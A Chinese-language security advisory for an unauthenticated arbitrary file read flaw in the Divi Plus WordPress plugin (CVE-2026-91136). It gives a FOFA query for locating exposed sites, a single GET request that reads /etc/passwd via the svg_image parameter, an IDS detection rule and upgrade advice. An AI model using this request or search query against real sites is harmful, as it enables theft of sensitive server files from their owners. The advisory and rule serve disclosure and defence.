

# Divi Plus svg_image存在任意文件读取漏洞CVE-2026-91136

Divi Plus svg_image存在任意文件读取漏洞CVE-2026-91136，攻击者可进行读取系统内任意敏感信息。

# 影响版本

Divi Plus <= 2.4.0

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/wp-content/plugins/divi-plus/"

POC/EXP：

```
GET /wp-json/elicus/v1/dipl-modules/svg-animator?svg_image=/etc/passwd HTTP/1.1
Host:127.0.0.1
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"Divi Plus - /wp-json/elicus/v1/dipl-modules/svg-animator svg_image 未授权任意文件读取 (CVE-2026-91136)";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/wp-json/elicus/v1/dipl-modules/svg-animator";
        fast_pattern;
    http.uri;
        content:"svg_image=";
    http.uri;
        content:"/etc/passwd"; nocase; distance:0;
    metadata:
        service http,
        affected_product "Divi Plus (WordPress plugin) <=2.4.0",
        cve "CVE-2026-91136",
        vulnerability_type "Unauthenticated Path Traversal / Arbitrary File Read",
        severity "high";
    classtype:sensitive-information-leak;
    sid:1000774;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
